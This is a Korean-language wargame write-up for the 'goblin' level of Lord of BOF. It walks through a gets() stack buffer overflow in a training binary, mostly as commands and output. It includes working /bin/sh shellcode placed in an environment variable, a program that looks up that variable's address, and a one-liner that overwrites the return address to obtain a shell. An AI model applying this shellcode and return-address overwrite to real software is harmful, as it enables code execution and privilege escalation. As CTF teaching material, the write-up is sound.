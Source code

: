 ============================================================================================================
[redhat-lob] goblin
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="input"];
        b [shape=box, color=lightblue, label="gets"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="getenv address"];
    }


|

Source Code
============================================================================================================

lob 문제의 경우 소스코드가 공개되어 있으며, 소스코드는 다음과 같다.

.. code-block:: c

    int main()
    {
        char buffer[16];
        gets(buffer);
        printf("%s\n", buffer);
    }


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.
사이즈가 16바이트인 char 형 변수 배열 buffer가 선언되어 있는데, 해당 사이즈보다 큰 값을 입력할 경우 오버플로우가 발생한다.

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (16byte)
    SFP     (4byte) <- gets overflow
    RET     (4byte)
    ---------------
    HIGH    
    ===============

|

Buffer Overflow
============================================================================================================

gets에 입력한 값을 통해 buffer 변수에 입력될 때, 값이 버퍼보다 클 경우 오버플로우가 발생된다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행

.. code-block:: console

    $ ./goblin
    aaaaaaaaaaaaaaaa

    aaaaaaaaaaaaaaaa

    $ ./goblin
    aaaaaaaaaaaaaaaaaaaa

    aaaaaaaaaaaaaaaaaaaa
    Segmentation fault

|

exploit
============================================================================================================

현재 버퍼 오버플로우가 발생하는 것을 확인하였으니, 해당 오버플로우시 RET에서 리턴되는 주소값을 내가 원하는 주소로 바꿔 쉘코드를 실행하도록 해보자.

환경 변수 쉘코드 등록
------------------------------------------------------------------------------------------------------------

환경 변수에 쉘코드를 등록해두고, 입력값 마지막 리턴 주소를 환경 변수 주소로 변경하여 해당 쉘코드를 실행하도록 한다.

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

다음과 같이 소스코드를 작성하여 shellcode 환경 변수에 대한 주소 값을 획득.

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
            char *addr;
            addr = getenv(argv[1]);
            printf("address %p\n", addr);
            return 0;
    }

.. code-block:: console

    $ gcc -o get get.c

    get.c: In function `main':
    get.c:6: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode

    address 0xbfffff02

|

RET 주소를 환경 변수 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (16byte) <- "\x90"*16
    SFP     (4byte)  <- "\x90"*4
    RET     (4byte)  <- shellcode 환경 변수 주소
    ---------------
    HIGH    
    ===============

|

오버플로우시 RET 주소를 환경 변수 주소로 변경하여 해당 쉘코드가 실행되도록 한다. 
gets의 경우 프로그램 실행 이후 값이 입력되어야 하기 때문에 다음 형식으로 변수를 입력합니다.

.. code-block:: console

    $ (python -c 'print "a"*20+"\x01\xff\xff\xbf"';cat) |./goblin
    aaaaaaaaaaaaaaaaaaaa▒▒▒

    whoami
    goblin
    my-pass
    euid = 503
    hackers proof

